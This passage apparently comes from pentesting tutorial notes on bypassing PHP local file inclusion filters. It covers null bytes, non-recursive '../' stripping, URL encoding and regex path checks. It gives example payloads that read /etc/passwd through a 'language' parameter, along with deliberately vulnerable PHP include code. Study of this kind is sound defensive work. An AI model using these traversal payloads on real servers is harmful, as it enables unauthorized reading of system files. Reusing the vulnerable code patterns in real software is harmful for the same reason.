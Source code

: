 **Null bytes**

Adding a null byte (%00) at the end of the string would terminate the string and not consider anything after it. o exploit this vulnerability, we can end our payload with a null byte (e.g. `/etc/passwd%00`)

#### Non recursive filters

```php
$language = str_replace('../', '', $_GET['language']);
```

It doesnt delete all `../` recursively so can do `....//` or escape the backslash with `....\/` to get around this like so:

```
http://<SERVER_IP>:<PORT>/index.php?language=....//....//....//....//etc/passwd
```

#### Encoding

Mostly can be used on older versions of php (5.3.4 earlier) can encode `../` to `%2e%2e%2f` can use burpsuite for this.

![](<../../.gitbook/assets/File Inclusion (php, nodejs,etc).png>)

Example:&#x20;

```
<SERVER_IP>:<PORT>/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```

#### Approved Paths

Some webapps use regular expressions like so to restrict directory:

```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```
